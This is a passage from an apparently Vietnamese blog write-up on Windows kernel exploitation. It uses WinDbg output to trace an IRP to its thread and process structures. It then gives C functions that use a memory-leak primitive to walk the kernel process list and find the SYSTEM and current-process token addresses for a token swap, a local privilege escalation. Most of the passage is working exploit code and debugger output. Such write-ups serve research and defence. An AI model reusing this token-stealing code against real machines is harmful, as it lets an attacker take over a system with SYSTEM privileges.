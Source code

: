 ```
*ffff860c34757670 size:  170 previous size:    0  (Allocated) *Irp
        Pooltag Irp  : Io, IRP packets
1: kd> ?? 0xffff860c347576a0 - 0xffff860c34757670 - 0x10 // Offset from IRP base to ThreadListEntry
unsigned int64 0x20
1: kd> dt _IRP ThreadListEntry
ntdll!_IRP
   +0x020 ThreadListEntry : _LIST_ENTRY

```

Như vậy là `IRP->ThreadListEntry->Flink` sẽ trỏ về `&_ETHREAD->IrpList` nên chúng ta đã leak thêm được một trường khá lớn là `_ETHREAD` và ở trong `_ETHREAD->Tcb` ([_KTHREAD](https://www.vergiliusproject.com/kernels/x64/Windows%2011/22H2%20(2022%20Update)/_KTHREAD)) lại có trường `Process`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1706955763021/d8eb54cc-c1da-4e80-a42d-25696a0a1ee5.png?auto=compress,format&format=webp)

Vậy là chúng ta đã có thể hoàn toàn lấy được `_EPROCESS` của một process bất kì chỉ dựa vào `IRP` Sau khi đã lấy được một process bất kì thì mình sẽ tiến hành tìm kiếm process của system và process của mình để swap token

Copy

Copy

```
ULONG64 GetProcessById(uint64_t first_process, uint64_t pid) {
    uint64_t current_pid = 0;
    uint64_t current_process = first_process;
    char data[0x1000];
    memset(data, 0x0, 0x1000);
    while (1) {
        leakMem(ULONG64(current_process + PID_OFFSET), 0x8, (UCHAR*)&current_pid);
        if (current_pid == pid)
            return current_process;

        leakMem(ULONG64(current_process + ACTIVELINKS_OFFSET), 0x8, (UCHAR*)&current_process);
        current_process -= PID_OFFSET + 0x8;
        if (current_process == first_process)
            return 0;
    }
}
void GetToken() {
    IRP irp_obj = *(IRP*)irp_data_saved;
    ULONG64 addr = 0;
    leakMem(ULONG64(irp_obj.ThreadListEntry.Flink + 0x38), 8, (UCHAR*)&addr);
    leakMem(ULONG64(addr-0x2c8), 8, (UCHAR*)&addr);
    ULONG64 current_proc = addr;
    printf("Current Process : %llx",current_proc);
    des_token = GetProcessById(current_proc, GetCurrentProcessId()) + 0x4b8;
    src_token = GetProcessById(current_proc, 4) + 0x4b8;
}

```
